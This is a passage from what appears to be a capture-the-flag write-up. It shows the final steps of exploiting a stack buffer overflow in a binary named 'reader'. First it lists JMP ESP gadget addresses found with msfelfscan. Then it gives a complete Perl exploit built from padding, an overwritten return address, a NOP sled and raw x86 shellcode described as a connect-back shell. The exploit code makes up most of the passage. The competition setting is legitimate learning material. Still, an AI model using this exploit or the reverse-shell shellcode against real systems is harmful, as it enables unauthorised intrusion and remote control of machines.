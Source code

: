```
(gdb) 
```

OK, now we have to find a JMP ESP, or something similar (cause we do not want to jump to a hard-coded stack address):

```
root@bt:/media# msfelfscan -j esp reader 
[reader]
0x08048233 jmp esp
0x080550e1 push esp; ret
0x0805513f push esp; ret
0x080561c9 push esp; ret
0x08074609 push esp; retn 0x8934
0x080890ef jmp esp
0x080a0f59 push esp; ret
0x080bebc3 jmp esp
0x080bfd0f jmp esp
```

Changing the "BBBB" string, addig some nopsled and a payload, and voila, the sploit is ready:

```
#!/usr/bin/perl

my $padding = "A"x268;
my $eip = "\\x33\\x82\\x04\\x08";
my $nopsled = "\\x90"x50;
my $buf =
"\\x31\\xdb\\xf7\\xe3\\x53\\x43\\x53\\x6a\\x02\\x89\\xe1\\xb0\\x66\\xcd" .
"\\x80\\x5b\\x5e\\x68\\x98\\x42\\xd7\\xf1\\x66\\x68\\xbf\\x68\\x66\\x53" .
"\\x6a\\x10\\x51\\x50\\x89\\xe1\\x43\\x6a\\x66\\x58\\xcd\\x80\\x59\\x87" .
"\\xd9\\xb0\\x3f\\xcd\\x80\\x49\\x79\\xf9\\x50\\x68\\x2f\\x2f\\x73\\x68" .
"\\x68\\x2f\\x62\\x69\\x6e\\x89\\xe3\\x50\\x53\\x89\\xe1\\xb0\\x0b\\xcd" .
"\\x80";

print $padding . $eip . $nopsled . $buf;
```

The payload we used was a connect-back shell. Fired up the exploit, got the shell, and we were just a cat away from getting our 69 points :)

Thx for the organizers, it was fun! And thx for all who read this stuff! See you @hacktiviy!
